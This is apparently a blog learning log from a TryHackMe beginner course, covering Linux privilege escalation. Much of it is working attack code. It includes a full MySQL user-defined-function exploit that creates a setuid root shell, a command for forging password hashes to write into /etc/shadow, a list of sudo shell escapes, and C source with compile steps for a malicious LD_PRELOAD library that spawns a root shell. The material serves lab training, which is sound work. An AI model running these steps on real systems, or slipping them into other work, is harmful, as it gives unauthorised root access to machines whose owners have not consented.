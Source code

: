 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-30 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-30-tryhackme-complete-beginner.html
author: 100007
---
```


# TryHackMe: Complete Beginner

**author:** Nathan Acks  
**date:** 2021-10-30

# Linux PrivEsc

## Service Exploits

[Exploiting MySQL running as root via a malicious user-defined function dynamic library.](https://www.exploit-db.com/exploits/1518)

The key to this is that if MySQL is running as root, then it can write files to all manner of directories. We use this to load a malicious library (raptor\_udf2.so from the above ExploitDB link) as a plugin by first dumping it as a blob into a table and then dumping it back out in MySQL’s plugin directory. Once there, we define a UDF using the malicious plugin to allow us to execute system commands; in particular, this lets us set the sticky bit on a copied shell that we can then execute to obtain root.

```
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
cat > rootme.sql <<EOF
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
EOF
mysql -u root mysql < rootme.sql
/tmp/rootbash -p # Root!
```

## Weak File Permissions

Make a new password hash for /etc/password or /etc/shadow:

```
mkpasswd -m sha-512 $PASSWORD
```

[It’s also possible to generate MD5 passwords for /etc/passwd using the openssl binary.](https://cardboard-iguana.com/notes/local-file-inclusion-attacks.html)

## Sudo

Some shell escapes via GTFOBins:

- `awk` - `awk 'BEGIN {system("/bin/sh")}'`
- `find` - `find . -exec /bin/sh \; -quit`
- `ftp` - `!/bin/sh`
- `iftop` - `!/bin/sh`
- `less` - `!/bin/sh`
- `man` - `!/bin/sh`
- `more` - `!/bin/sh` (may require TERM to be unset)
- `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
- `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
- `vim` - `:set shell=/bin/sh` followed by `:shell`

If LD\_PRELOAD or LD\_LIBRARY\_PATH are preserved by sudo, then it’s also possible to use a malicious dynamic library to gain root access. Preserved environment variables are listed by `sudo -l`.

LD\_PRELOAD is probably the easiest of these to exploit, because a library listed in this environment variable is just automatically loaded on application start. So just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`.

A simple malicious library (perhaps _the_ simplest) that can exploit the LD\_PRELOAD trick is:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

Compile with:

```
gcc -fPIC -shared -nostartfiles \
-o /path/to/malicious.so /path/to/malicious.c
```

Using LD\_LIBRARY\_PATH is a bit trickier; use ldd to see what libraries a program is already pulling in, and then name your malicious library after one of these. Then run `sudo LD_LIBRARY_PATH=/path/to/malicious/library program-runnable-with-nopasswd` to trick the program into loading your malicious library instead of the legitimate system library.

While the same code as LD\_PRELOAD can be used as a starting point for an LD\_LIBRARY\_PATH exploit, things get trickier because some libraries are required by others, loaded at different times, or have functions (symbols) that are loaded but not used right away. So some amount of trial-and-error, both in the naming of the malicious library and in what functions are defined within it, may be required.

NOTE that not every UNIX-like system calls their library path LD\_LIBRARY\_PATH!

- [GTFOBins](https://gtfobins.github.io)
